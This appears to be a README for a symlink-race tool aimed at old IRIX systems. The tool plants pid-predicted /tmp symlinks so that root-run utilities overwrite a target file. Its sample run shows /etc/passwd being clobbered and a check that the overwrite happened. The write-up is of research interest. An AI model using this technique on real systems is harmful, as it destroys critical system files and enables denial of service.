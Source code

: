I've been looking around on my SGI Indy running IRIX 6.5.22 checking system utitlities for the use of /tmp.  I've noticed some scripts
using $$ to generate a unique file name in /tmp. I wrote this simple tool to generate links in /tmp in an attempt to clobber
files if the root user were to run any of the vulnerable utitliies.

This code creates an x number of symlinks using the pid in the filename in order to clobber system files by linking to them when programs use /tmp in an insecure manner. This isn't really a problem on modern day unixes.  I've developed and tested it on an SGI Indy R5000 running IRIX 6.5.22.  After running it monitors the target file's modification time to determine if the exploitation succeeded. 
```
larry@mathom:~/code/symlinker$ ./symlink 10 to_dos /etc/passwd
Starting from our own process id: 259857
Symlinking /tmp/to_dos259857->/etc/passwd
Symlinking /tmp/to_dos259858->/etc/passwd
Symlinking /tmp/to_dos259859->/etc/passwd
Symlinking /tmp/to_dos259860->/etc/passwd
Symlinking /tmp/to_dos259861->/etc/passwd
Symlinking /tmp/to_dos259862->/etc/passwd
Symlinking /tmp/to_dos259863->/etc/passwd
Symlinking /tmp/to_dos259864->/etc/passwd
Symlinking /tmp/to_dos259865->/etc/passwd
Symlinking /tmp/to_dos259866->/etc/passwd
Symlinking /tmp/to_dos259867->/etc/passwd
Waiting on a write to one of our predicted links in /tmp or pid to grow past the links we created.
[+] The target file /etc/passwd has been over written!
[+] Modification time changed from Fri Oct 25 13:31:44 2019 to Sun Oct 27 02:39:16 2019

Cleaning up....
Unlinking -> /tmp/to_dos259867
Unlinking -> /tmp/to_dos259866
Unlinking -> /tmp/to_dos259865
Unlinking -> /tmp/to_dos259864
Unlinking -> /tmp/to_dos259863
Unlinking -> /tmp/to_dos259862
Unlinking -> /tmp/to_dos259861
Unlinking -> /tmp/to_dos259860
Unlinking -> /tmp/to_dos259859
Unlinking -> /tmp/to_dos259858
Unlinking -> /tmp/to_dos259857
```
